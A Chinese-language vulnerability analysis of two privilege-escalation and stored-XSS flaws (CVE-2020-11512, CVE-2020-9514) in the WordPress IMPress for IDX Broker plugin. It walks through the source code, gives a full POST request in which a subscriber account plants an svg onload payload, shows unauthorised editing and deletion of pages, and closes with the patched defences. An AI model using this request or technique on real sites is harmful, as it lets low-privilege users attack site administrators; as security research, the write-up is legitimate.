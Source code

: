 ​	CVE-2020-11512分析

​	 首先看到在插件的目录plugins\idx-broker-platinum\idx\initiate-plugin.php文件下的277行的idx_update_recaptcha_key函数中接收了POST参数idx_recaptcha_site_key数据，在279行被update_option函数调用

​	注：在当前账户权限下，执行修改初始化信息只可以用这个验证，返回信息只有一个1，如果不是1说明修改失败 在在当前用户全下载通过Wordpress IMPress for IDX Broker可以越权操作IMPress for IDX  Brokerc插件的初始化信息，通过xss漏洞获取管理员敏感信息。

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029545342-0.png)

​	下面我们看下update_option函数对该数据的操作，该函数是对wordpress中的options参数的进行更新数据，我们看到上面对options的传入参数为idx_recaptcha_site_key，即更新该参数的值
 ![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/10295432F-1.png)

​	在390行我们看到执行了update参数，更新了数据库中的数据
 ![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/102954C55-2.png)
 ![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029546116-3.png)
 我们在update_option函数中调用了wp_protect_special_option对option参数名进行html过滤，却没有对value进行过滤，引发了xss漏洞
 ![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/10295454C-4.png)

​	下面我们看下函数idx_update_recaptcha_key的调用位置，在initiate-plugin.php文件下的34行hook在wp_ajax_idx_update_recaptcha_key tag上，

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029541155-5.png)
  我們在admin-ajax.php页面中159行中获取到action参数，使用is_user_logged_in判断了用户权限后，直接将action参数拼接到do_action函数中进行执行，而is_user_logged_in只是判断用户是否存在，没有进行权限判断。

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029545J5-6.png)

### 	CVE-2020-11512利用

​	通过user1用户（订阅者权限）发送数据包：

```

```

1. ​		POST /wordpress/wp-admin/admin-ajax.php HTTP/1.1
2. ​		Host: localhost
3. ​		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
4. ​		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
5. ​		Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
6. ​		Connection: close
7. ​		Cookie:  wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=user1%7C1591004988%7CPrKGAmfSsNxfsQ9QAGID3aK8sMmvLnJtimfdGugoqCN%7C2850d94c57420c45398bd86aa49445eb60914036c0482cd3ebc755de5a8b1239; wordpress_test_cookie=WP+Cookie+check;  wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=user1%7C1591004988%7CPrKGAmfSsNxfsQ9QAGID3aK8sMmvLnJtimfdGugoqCN%7Cc1e4006d123d6f33199624e0a514319b21b93859faa5af2a60fc0ceda066fb73; wp-settings-time-2=1590832197
8. ​		Upgrade-Insecure-Requests: 1
9. ​		Content-Type: application/x-www-form-urlencoded
10. ​		Content-Length: 0
11. ​		 
12. ​		action=idx_update_recaptcha_key&idx_recaptcha_site_key=a22212322123"><svg onload=alert(/~xss~/)>'

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029545632-7.png)

​	此时管理员对该插件进行设置操作：

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029544206-8.png)

### 	CVE-2020-9514漏洞分析

​	 从\wp-content\plugins\idx-broker-platinum\idx\wrappers.php文件中idx_ajax_create_dynamic_page函数中202行看到函数通过post_title参数中获取到了title数据，211行获取到了wrapper_page_id参数，在214和215行更新了数据库，并在218行针对给定的id进行更新元字段。 ![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/102954B10-9.png)

​	继续看236行的idx_ajax_delete_dynamic_page函数，接收到post参数wrapper_page_id，然后进行删除该数据操作

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/10295434M-10.png)

​	我们找一下这两个函数的调用位置：

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029544K7-11.png)

​	好了，可以看到这两个函数全部挂钩在wp_ajax开头的钩子上，利用上面的越权操作即可操作

### 	CVE-2020-9514漏洞利用

​	首先添加一个Wrapper页面

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029541607-12.png)

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/10295435O-13.png)

​	下面使用user1用户进行create操作：

​	首先在页面中获取上面创建的id值：6

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029545950-14.png)

​	操作如下：

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/102954J91-15.png)

​	发现该页面数据已改变，并且由user1修改

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029543246-16.png)

​	同样执行删除操作

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/1029546342-17.png)

​	发现已经无了：

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/10295442O-18.png)

## 	防御

​	通过查看对比补丁信息，新的版本使用current_user_can函数判断当前用户的权限，并验证nonce机制防御CSRF攻击。

​	![img](Wordpress IMPress for IDX Broker 低权限xss漏洞/102954MP-19.png)

​	 